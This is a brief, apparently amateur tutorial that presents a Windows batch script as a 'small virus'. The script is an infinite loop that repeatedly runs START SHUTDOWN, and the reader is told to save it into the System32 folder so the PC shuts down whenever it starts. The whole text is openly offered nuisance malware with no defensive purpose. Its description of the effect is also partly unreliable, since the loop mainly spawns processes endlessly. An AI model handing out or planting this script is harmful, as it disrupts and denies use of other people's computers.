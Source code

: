 # BATCH-CODE
FOR MAKE A SMALL VIRUS
FOLLOW THE PROCESS
1. OPEN NOTEPAD
2. WRITE THE CODE
@ECHO OFF
:HELL
START SHUTDOWN
GOTO HELL
3. SAVE AS THIS FILE EX:- ABC.BAT IN THE C DRIVE IN WINDOWS IN SYSTEM32
4. ITS WORK IS START INFINITY LOOP AND PC DIRECT SHUTDOWN WHEN IT START
FOR ANY QUERY CONTACT ON EMAIL -PUSHKARJATPJ034@GMAIL.COM
